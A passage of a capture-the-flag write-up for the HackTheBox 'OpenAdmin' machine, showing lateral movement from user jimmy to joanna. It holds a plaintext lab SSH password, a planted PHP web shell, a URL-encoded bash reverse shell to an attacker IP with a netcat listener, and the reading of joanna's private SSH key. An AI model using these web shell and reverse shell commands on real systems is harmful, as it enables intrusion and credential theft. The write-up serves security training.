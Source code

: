 ### SSH Login
`$ ssh jimmy@10.10.10.171` | password **n1nj4W4rri0R!**

## Lateral Movement
### Privilege: Jimmy to Joanna
`$ cat /etc/apache2/sites-enabled/internal.conf`
```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

#### Tunneling to port 52846
`$ ssh jimmy@10.10.10.171 -L 52846:localhost:52846`

**Add Webshell to internal website**
`$ echo '<?php system($_GET["cmd"]); ?>' > /var/www/internal/cmd.php`

**Access the webshell**
`curl http://127.0.0.1:52846/cmd.php?cmd=id`
```
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```

### Reverse Shell
`$ curl 'http://127.0.0.1:52846/cmd.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.16.12/443%200%3E%261%27'`
```
 nc -lnvp 443        
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.171] 58586
bash: cannot set terminal process group (1210): Inappropriate ioctl for device
bash: no job control in this shell
joanna@openadmin:/var/www/internal$ id
id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
joanna@openadmin:/var/www/internal$
```

**Got SSH Key of Joanna**
```
joanna@openadmin:/var/www/internal$ ls
ls
cmd.php
index.php
logout.php
main.php
joanna@openadmin:/var/www/internal$ cat main.php
cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
```